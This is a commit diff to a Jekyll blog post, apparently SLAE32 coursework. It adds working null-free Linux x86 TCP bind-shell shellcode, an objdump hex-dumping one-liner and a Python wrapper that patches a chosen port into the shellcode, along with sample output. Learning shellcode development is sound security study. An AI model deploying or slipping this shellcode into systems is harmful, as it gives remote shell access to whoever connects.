

Before and after one commit to crawl3r/crawl3r.github.io, a Jekyll site: the page built from _posts/2020-01-07-slae32_tcp_bind_shell.md, in a window 1280 px wide and 1400 px high, scrolled down 16163 px. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 17400 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2020-01-07-slae32_tcp_bind_shell.md

````diff
--- a/_posts/2020-01-07-slae32_tcp_bind_shell.md
+++ b/_posts/2020-01-07-slae32_tcp_bind_shell.md
@@ -568,27 +568,95 @@ _start:
 ```
 
 Dumping the hex for usage:
+To extract our hex values for our shell, we can use the following shell script (dump_hex.sh) along with the target object to extract the hex values in a usable fashion. The output can be taken and placed directly into the following python wrapper.
 
 ```
 root@kali:~/Documents/slae32/misc# cat dump_hex.sh
-objdump -d "$1" |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
+objdump -d "$1" |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
 ```
 
 Usage:
 
 ```
-root@kali:~/Documents/slae32/misc/second_bind_shell# ../dump_hex.sh second_bind_shell
-"\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc7\x66\xb8\x69\x01\x89\xfb\x31\xc9\x51\x51\x66\x68\x23\x29\x66\x6a\x02\x89\xe1\xb2\x10\xcd\x80\x66\xb8\x6b\x01\x89\xfb\x31\xc9\xcd\x80\x66\xb8\x6c\x01\x89\xfb\x31\xc9\x31\xd2\xcd\x80\x89\xc7\xb1\x03\xb0\x3f\x89\xfb\x49\xcd\x80\x75\xf7\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80"
+root@kali:~/Documents/slae32/exercise_1# ../misc/dump_hex.sh second_bind_shell/second_bind_shell
+"\\x66\\xb8\\x67\\x01\\xb3\\x02\\xb1\\x01\\xcd\\x80\\x89\\xc7\\x66\\xb8\\x69\\x01\\x89\\xfb\\x31\\xc9\\x51\\x51\\x66\\x68\\x23\\x29\\x66\\x6a\\x02\\x89\\xe1\\xb2\\x10\\xcd\\x80\\x66\\xb8\\x6b\\x01\\x89\\xfb\\x31\\xc9\\xcd\\x80\\x66\\xb8\\x6c\\x01\\x89\\xfb\\x31\\xc9\\x31\\xd2\\xcd\\x80\\x89\\xc7\\xb1\\x03\\xb0\\x3f\\x89\\xfb\\x49\\xcd\\x80\\x75\\xf7\\x31\\xc0\\x50\\x68\\x6e\\x2f\\x73\\x68\\x68\\x2f\\x2f\\x62\\x69\\x89\\xe3\\x50\\x89\\xe1\\x50\\x89\\xe2\\xb0\\x0b\\xcd\\x80"
 ```
 
-As the above output shows, I have successfully tweaked my initial bind shell script to remove all null bytes during the second draft of the shell.
+As the above output shows, I have successfully tweaked my initial bind shell script to remove all null bytes during the second draft of the shell. The output also includes two \'s because the actual value, allowing direct usage within a python string. We need the two back slash characters to ensure a single \ remains in the final output.
 
 ## Custom port number:
 The issue with this shell at the moment, is the static port value used within the defined struct. In order to change the port number we currently need to either open the .asm file, tweak the hex number that is pushed onto the stack and rebuild the shell or remember which hex values in the entire hex string above reference the port.
 
 The more logical solution would be to create a little tool, or wrapper, that takes a user defined integer value, converts this value to hex and then replaces the current port number value before dumping the hex to the screen for use.
 
-todo - write python wrapper and place here
+The following script is a python wrapper that I have made to allow a custom port to be placed into the script, replacing the hard coded value within the final hex output.
+
+```
+root@kali:~/Documents/slae32/exercise_1# cat wrapper.py
+import sys
+import socket
+
+shellcode = (
+        "\\x66\\xb8\\x67\\x01\\xb3\\x02\\xb1\\x01\\xcd\\x80\\x89\\xc7\\x66"
+        "\\xb8\\x69\\x01\\x89\\xfb\\x31\\xc9\\x51\\x51\\x66\\x68[p2][p1]"
+        "\\x66\\x6a\\x02\\x89\\xe1\\xb2\\x10\\xcd\\x80\\x66\\xb8\\x6b\\x01"
+        "\\x89\\xfb\\x31\\xc9\\xcd\\x80\\x66\\xb8\\x6c\\x01\\x89\\xfb\\x31"
+        "\\xc9\\x31\\xd2\\xcd\\x80\\x89\\xc7\\xb1\\x03\\xb0\\x3f\\x89\\xfb"
+        "\\x49\\xcd\\x80\\x75\\xf7\\x31\\xc0\\x50\\x68\\x6e\\x2f\\x73\\x68"
+        "\\x68\\x2f\\x2f\\x62\\x69\\x89\\xe3\\x50\\x89\\xe1\\x50\\x89\\xe2"
+        "\\xb0\\x0b\\xcd\\x80"
+)
+
+if len(sys.argv) != 2:
+        print 'Usage: ' + sys.argv[0] + ' <port>'
+        sys.exit()
+
+port = sys.argv[1]
+print "Chosen port: %s" % port
+
+int_port = int(port)
+if int_port > 65535:
+        print "Port choice is greater than max value (65535)"
+        sys.exit()
+
+htons_port_val = socket.htons(int_port)
+hex_port_value = hex(htons_port_val)
+
+cleaned_hex_port = hex_port_value.replace("0x", "")
+first_port_val = "\\x" + cleaned_hex_port[:2]
+second_port_val = "\\x" + cleaned_hex_port[2:]
+
+print "1st port: %s" % first_port_val
+print "2nd port: %s" % second_port_val
+print ""
+
+print "Ammending shellcode..."
+
+shellcode = shellcode.replace("[p2]", second_port_val)
+shellcode = shellcode.replace("[p1]", first_port_val)
+
+print "Final Shellcode:"
+print shellcode
+```
+
+As we can see in the above shellcode value, there are two placeholder values [p2] and [p1], these are the two hex values that are replaced with the target port, specified at runtime. Once edited, the final shellcode is output to the screen, as seen in the following usage example:
+
+```
+root@kali:~/Documents/slae32/exercise_1# python wrapper.py 9001
+Chosen port: 9001
+1st port: \x29
+2nd port: \x23
+
+Ammending shellcode...
+Final Shellcode:
+\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc7\x66\xb8\x69\x01\x89\xfb\x31\xc9\x51\x51\x66\x68\x23\x29\x66\x6a\x02\x89\xe1\xb2\x10\xcd\x80\x66\xb8\x6b\x01\x89\xfb\x31\xc9\xcd\x80\x66\xb8\x6c\x01\x89\xfb\x31\xc9\x31\xd2\xcd\x80\x89\xc7\xb1\x03\xb0\x3f\x89\xfb\x49\xcd\x80\x75\xf7\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80
+```
+
+Our final step is to utilise this hex output within an executable that injects the shellcode directly into the process memory and executes it, binding out shell. This can be completed in various languages, for example C# is an ideal candidate for a Windows shell. As I am working within a Unix environment I wrote my executable in C.
+
+```
+place C wrapper here
+```
 
 ## Additional:
 todo
````
